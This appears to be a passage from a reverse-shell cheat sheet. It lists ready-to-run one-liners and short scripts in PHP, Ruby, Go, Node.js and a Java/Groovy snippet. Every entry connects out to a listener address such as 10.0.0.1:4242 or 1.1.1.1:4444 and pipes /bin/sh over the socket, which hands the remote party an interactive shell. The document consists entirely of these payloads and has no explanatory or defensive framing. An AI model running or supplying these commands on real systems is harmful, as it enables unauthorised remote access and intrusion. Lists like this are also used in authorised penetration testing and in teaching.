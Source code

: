 ### php

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```bash
php -r '$sock=fsockopen("10.0.0.1",4242);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

### ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",4242).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

ruby -rsocket -e 'exit if fork;c=TCPSocket.new("10.0.0.1","4242");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

### Golang

```bash
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

### lambda Node.js

```js
vim shell.js

(function(){
    var net=require("net"),
    cp = require("child_process"),
    sh =  cp.spawn("/bin/sh",[]);
    var client = new net.Socket();
    client.connect(8888,"1.1.1.1",function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/;
})();
```
```bash
node shell.js
```

### java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/1.1.1.1/4444;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
